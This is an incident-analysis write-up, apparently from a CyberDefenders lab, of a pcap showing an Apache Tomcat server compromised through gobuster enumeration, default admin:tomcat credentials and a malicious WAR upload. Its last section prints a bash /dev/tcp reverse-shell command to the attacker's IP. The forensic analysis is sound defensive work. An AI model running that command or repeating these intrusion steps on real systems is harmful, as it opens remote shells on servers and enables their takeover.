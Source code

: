 # Apache Tomcat Web Server Compromise - Incident Analysis

## Overview

Our SOC team detected suspicious activity originating from an external IP address targeting an Apache Tomcat web server within the company's intranet. This investigation leverages the analysis of the captured pcap file, uncovering a series of malicious activities that indicate a successful compromise of the web server. Below is the detailed breakdown of the incident, including IP addresses, ports involved, and attacker methodologies.

## IP Address Analysis

| IP Address     | Description                                       |
| -------------- | ------------------------------------------------- |
| 14.0.0.120     | External IP; Threat Actor                         |
| 10.0.0.112     | SSH Server & Apache Tomcat/7.0.88                |
| 10.0.0.115     | CyberDefenders - Virtual Machine (Ubuntu - root) |
| 10.0.0.105     | SMB/File Share Server                             |

## Port Activity

The following ports were actively used during the attack:
- **8080** - Apache Tomcat Web Server
- **22** - SSH
- **445** - SMB File Sharing
- **80** - HTTP
- **443** - HTTPS

### Attack Timeline

1. **SYN Scan Detection**:
   - The attacker (14.0.0.120) was observed sending a large volume of SYN requests, indicating an active SYN scan against the network. The attacker successfully identified open ports: **8080**, **22**, and **8009** on the SSH server (10.0.0.112).

2. **Suspicious POST Request**:
   - At **18:22:14**, the attacker uploaded a file via a POST request to the Tomcat server (10.0.0.112). The file appears to be a **PK file**, likely compressed as a **ZIP** archive.

3. **Default Credentials Exploited**:
   - In **packet 20553**, a successful login attempt was captured using the credentials **admin:tomcat**, which were likely unchanged from the default setup.

## Attack Summary and Analysis

### 1. Identifying the Attacker
- **Source IP**: 14.0.0.120
- **Origin**: Guangzhou

### 2. Open Port Vulnerability
- **Port Access**: The attacker's scan revealed that **8080** is used for the Apache Tomcat web server's admin panel.

### 3. Enumeration Tool Identified
- **Tool Used**: `gobuster`
  - The attacker utilized this tool to enumerate directories and files on the web server.

### 4. Directory Uncovered
- **Discovered Path**: `/manager`
  - The attacker discovered the `/manager` directory, which led to access to the admin panel.

### 5. Brute-Force Attack
- **Credentials Used**: `admin:tomcat`
  - The attacker successfully brute-forced the login credentials, exploiting the default settings.

### 6. Malicious File Upload
- **File Name**: `JXQOZY.war`
  - The attacker uploaded a malicious `.war` file intending to establish a reverse shell on the compromised server.

### 7. Persistence Command
- **Scheduled Command**: `/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'`
  - This command was used to establish a reverse shell and maintain persistence on the compromised system.

